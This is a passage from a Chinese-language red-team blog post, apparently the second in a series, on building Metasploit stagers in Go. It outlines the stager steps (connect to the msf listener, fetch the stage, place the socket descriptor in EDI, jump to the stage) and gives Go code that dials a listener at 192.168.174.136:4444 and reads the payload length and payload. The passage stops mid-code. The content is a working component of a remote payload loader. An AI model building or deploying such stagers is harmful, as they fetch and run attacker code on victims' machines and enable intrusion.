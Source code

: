 ```yaml
---
title: msf stagers开发不完全指北(二)
slug: msf-stagers-develop-2
date: 2020-06-28 13:40:00
tags:
- msf
- 红队
- 工具
categories:
- 开发
---
```


# 采用 Golang 开发stagers



上一篇文章 [msf stagers开发不完全指北(一)](https://www.cnblogs.com/Akkuman/p/13183702.html)中我们谈到如何采用 c 进行 msf 的 stagers 开发，这篇文章我们探讨一下如何使用 Golang 实现同样的功能



## 思路梳理

在 Golang 中一点比较重要的是，我们如何能够获取到 socket 的文件描述符，除此之外，我们还是同样的步骤

1. 向 msf 监听地址发起 tcp 请求
2. 获取 stages
3. 将 socket fd 放入寄存器 edi
4. 从起始地址开始执行 stages

## 编译环境

- OS: Windows 10

- Golang: go version go1.14.1 windows/amd64

### 获取stages

```go
socket, err := net.Dial("tcp", "192.168.174.136:4444")
if err != nil {
    return err
}

// read payload size
var payloadSizeRaw = make([]byte, 4)
numOfBytes, err := socket.Read(payloadSizeRaw)
if err != nil {
	return err
}
if numOfBytes != 4 {
    return errors.New("Number of size bytes was not 4! ")
}
payloadSize := int(binary.LittleEndian.Uint32(payloadSizeRaw))

// read payload
var payload = make([]byte, payloadSize)
// numOfBytes, err = socket.Read(payload)
numOfBytes, err = io.ReadFull(socket, payload)
if err != nil {
    return err
}
if numOfBytes != payloadSize {
```